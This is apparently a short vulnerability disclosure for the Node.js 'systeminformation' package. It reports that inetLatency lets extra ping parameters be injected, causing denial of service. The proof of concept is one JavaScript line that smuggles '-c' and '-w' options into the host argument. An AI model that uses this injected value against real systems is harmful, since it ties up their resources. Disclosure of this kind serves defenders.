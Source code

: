 # Description

`systeminformation` is vulnerable to Denial of Service.

It is possible to overwrite the ping command parameters, which results in too long execution.

# Proof of Concept

Create a .js file with the content below and run it.

```javascript
const si = require('systeminformation');
si.inetLatency("-c 10000000000 -w 999999999 effectrenan.com").then((a) => { console.log(a) })
```
